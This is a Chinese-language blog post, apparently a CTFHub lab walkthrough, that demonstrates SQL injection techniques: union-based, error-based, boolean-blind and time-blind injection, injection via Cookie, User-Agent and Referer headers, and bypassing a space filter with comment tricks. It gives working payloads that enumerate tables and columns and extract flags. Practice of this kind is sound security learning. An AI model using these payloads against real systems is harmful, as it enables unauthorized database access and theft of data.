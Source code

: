 ```yaml
---
layout: post
title: CTFHub Web SQL 注入
subtitle: CTFHub Web SQL 注入
date: 2023-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. SQL 注入

### 1.1. 整数型注入

```sql
1 #显示
1 and 1=1 #显示
-1 union select 1,2,3 #不显示
-1 union select 1,2 #显示
```

![image](https://img.ghostliner.top/J7WJ6a.png)

获取数据库和表

![image](https://img.ghostliner.top/ZlUuSZ.png)

获取 `flag` 表字段

![image](https://img.ghostliner.top/kPrwbG.png)

获取 flag

![image](https://img.ghostliner.top/WWTK7O.png)

### 1.2. 字符型注入

```sql
# 字符型确认
?id=1' and 1=1--+
?id=1' and 1=-1--+
```

![image](https://img.ghostliner.top/KfiUPt.png)

![image](https://img.ghostliner.top/wXOxLO.png)

![image](https://img.ghostliner.top/Sb52Gr.png)

![image](https://img.ghostliner.top/pfzIk3.png)

### 1.3. 报错注入

![image](https://img.ghostliner.top/HVkijc.png)

![image](https://img.ghostliner.top/h3XHx6.png)

![image](https://img.ghostliner.top/vf7Vyk.png)

![image](https://img.ghostliner.top/ZJOcZI.png)

![image](https://img.ghostliner.top/hGF5SU.png)

### 1.4. 布尔盲注

经测试只有 ` query_error``query_success ` 两种

布尔盲注

```sql
1 and (select count(table_name) from information_schema.tables where table_schema=database())=2 -- 表数量2
1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=4 -- 表1长度4
1 and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=4 -- 表2长度4
```

```sql
1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=100 --
```

![image](https://img.ghostliner.top/dNv8OM.png)

表名：flag

```sql
1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='flag')=1 -- 列数1
1 and length((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1))=4 -- 列长度4
```

```sql
1 and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1))=100 --
```

![image](https://img.ghostliner.top/CiqyVT.png)

列名：flag

```sql
1 and length((select flag from flag limit 0,1))=32 --
```

```sql
1 and ascii(substr((select flag from flag limit 0,1),1,1))=100 --
```

![image](https://img.ghostliner.top/utUqtQ.png)

`<font style="color:rgb(139, 139, 139);">ctfhub{f127288b7d5f415118ee54ed}</font>`

### 1.5. 时间盲注

```sql
1 and sleep(3) -- 数字型注入
1 and if((select count(table_name)from information_schema.tables where table_schema=database())=2,sleep(3),0) -- 表数量2
1 and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=4,sleep(2),0) -- 表1长度4
1 and if(length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=4,sleep(2),0) -- 表2长度4
1 and if(ascii(substr((select table_name from information_schema.tables where ta
ble_schema=database() limit 1,1),§1§,1))=§100§,sleep(2),0) -- 表1：news;表2：flag
1 and if((select count(column_name) from information_schema.columns where table_schema=database() and table_name='flag')=1,sleep(2),0) -- flag表列数量1
1 and if(length((select column_name from information_schema.columns where table_schema=database() and table_name='flag'))=4,sleep(2),0) -- 列1长度4
1 and if(ascii(substr((select column_name from information_schema.columns where
table_schema=database() and table_name='flag'),§1§,1))=§100§,sleep(2),0) -- 列1名flag
```

```sql
1 and if(ascii(substr((select flag from flag),§1§,1))=§100§,sleep(2),0)
```

![image](https://img.ghostliner.top/Sp6pim.png)

`<font style="color:rgb(139, 139, 139);">ctfhub{77f14ac024782fa5cb10968e}</font>`

### 1.6. MySQL 结构

```sql
1 union select 1,2
1 union select 1,2,3
```

![image](https://img.ghostliner.top/b9MNEF.png)

确定查询两列

![image](https://img.ghostliner.top/AfgPRI.png)

![image](https://img.ghostliner.top/4UMEPQ.png)

![image](https://img.ghostliner.top/7t0OoK.png)

### 1.7. Cookie 注入

![image](https://img.ghostliner.top/2y1qfY.png)

![image](https://img.ghostliner.top/Ydxxa6.png)

![image](https://img.ghostliner.top/V80bbO.png)

![image](https://img.ghostliner.top/1fUhq6.png)

![image](https://img.ghostliner.top/9rkGla.png)

### 1.8. UA 注入

![image](https://img.ghostliner.top/G6zdMS.png)

![image](https://img.ghostliner.top/4JrTFb.png)

![image](https://img.ghostliner.top/5FVUmD.png)

![image](https://img.ghostliner.top/6X1uU5.png)

![image](https://img.ghostliner.top/MHjXKF.png)

### 1.9. Refer 注入

原请求无 refer，手动添加

![image](https://img.ghostliner.top/U7kr6W.png)

![image](https://img.ghostliner.top/VxZMBg.png)

![image](https://img.ghostliner.top/vTiliJ.png)

![image](https://img.ghostliner.top/CQheLF.png)

![image](https://img.ghostliner.top/a82fBc.png)

![image](https://img.ghostliner.top/pQM0bR.png)

### 1.10. 过滤空格

`-1 union select 1,2`

![image](https://img.ghostliner.top/leHG4y.png)

`-1/**/union/**/select/**/1,2`

![image](https://img.ghostliner.top/peQY4l.png)

```sql
-1/**/union/**/select/**/database(),group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema=database()
```

![image](https://img.ghostliner.top/AdE9IA.png)

```sql
-1/**/union/**/select/**/database(),group_concat(column_name)from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='iwnukmmbul'
```

![image](https://img.ghostliner.top/YFXY53.png)

```sql
-1/**/union/**/select/**/database(),group_concat(pvrmhtxmxm)from/**/iwnukmmbul
```

![image](https://img.ghostliner.top/pEbgPv.png)
